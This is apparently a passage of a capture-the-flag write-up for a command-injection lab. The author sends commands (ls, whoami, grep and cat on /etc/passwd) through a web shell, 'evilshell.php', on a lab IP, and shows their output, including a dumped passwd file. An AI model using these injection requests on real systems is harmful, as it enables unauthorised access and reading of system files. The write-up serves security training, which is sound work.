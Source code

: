 **Windows**
* whoami
* ver
* ipconfig
* tasklist
* netstat -an

To complete the questions below, navigate to http://MACHINE_IP/evilshell.php.

1. What strange text file is in the website root directory?

`http://10.10.175.234/evilshell.php?commandString=ls+-la`

```
total 28 drwxr-x--- 4 www-data www-data 4096 Jun 3 18:13 . drwxr-xr-x 3 root root 4096 May 18 15:21 .. drwxr-x--- 2 www-data www-data 4096 May 21 03:04 css -rw-r----- 1 www-data www-data 17 May 22 13:14 drpepper.txt -rw-r----- 1 www-data www-data 1723 May 26 01:52 evilshell.php -rw-r----- 1 www-data www-data 2200 May 21 03:04 index.php drwxr-x--- 2 www-data www-data 4096 May 21 03:04 js 
```

`drpepper.txt`

2. How many non-root/non-service/non-daemon users are there?

`sudo grep '/home/' /etc/passwd | cut -d: -f1`

`http://10.10.175.234/evilshell.php?commandString=sudo+grep+%27%2Fhome%2F%27+%2Fetc%2Fpasswd+%7C+cut+-d%3A+-f1`


`sudo grep '/bin/bash' /etc/passwd | cut -d: -f1`

`http://10.10.175.234/evilshell.php?commandString=sudo+grep+%27%2Fbin%2Fbash%27+%2Fetc%2Fpasswd+%7C+cut+-d%3A+-f1`

`0`

3. What user is this app running as?

`http://10.10.175.234/evilshell.php?commandString=whoami`

`www-data`

4. What is the user's shell set as?

`http://10.10.175.234/evilshell.php?commandString=cat+%2Fetc%2Fpasswd`

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

